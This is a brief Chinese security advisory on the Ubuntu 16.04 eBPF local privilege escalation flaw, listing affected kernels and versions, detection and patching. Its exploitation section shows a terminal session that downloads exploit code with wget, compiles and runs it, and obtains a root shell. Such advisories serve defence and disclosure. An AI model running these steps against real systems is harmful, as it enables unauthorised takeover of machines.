 Ubuntu 16.04版本存在本地提权漏洞，该漏洞存在于Linux内核带有的eBPF bpf(2)系统调用中，当用户提供恶意BPF程序使eBPF验证器模块产生计算错误，导致任意内存读写问题。 

攻击者（普通用户）可以利用该漏洞进行提权攻击，获取root权限，危害极大。

目前，主要是Debian和Ubuntu版本受影响，Redhat和CentOS不受影响。

**影响版本：** 

Linux内核：Linux Kernel Version 4.4 ~ 4.14

Ubuntu版本：16.04.01~ 16.04.04



## 漏洞等级

高危



## 漏洞危害

提升到root权限



## 漏洞检测方法

1.编译POC,运行判断是否存在

2.漏洞扫描器扫描



## 漏洞利用方法

```
$ whoami      //查看当前用户
hack
$ wget http://cyseclabs.com/pub/upstream44.c  //下载EXP
$ ls
upstream44.c
$ gcc -o exp upstream44.c   //编译并输出到exp应用程序中
$ chmod 777 exp       //赋予权限
$ ./exp            //执行
task_struct = ffff880015e9f000
uidptr = ffff88001d42b5c4
spawning root shell
root@mozhe:~# ls
exp  upstream44.c
root@mozhe:~# id       //以获取权限
uid=0(root) gid=0(root) groups=0(root),1001(hack)

```



## 漏洞修复方案

1.及时升级系统

2.去官网打补丁




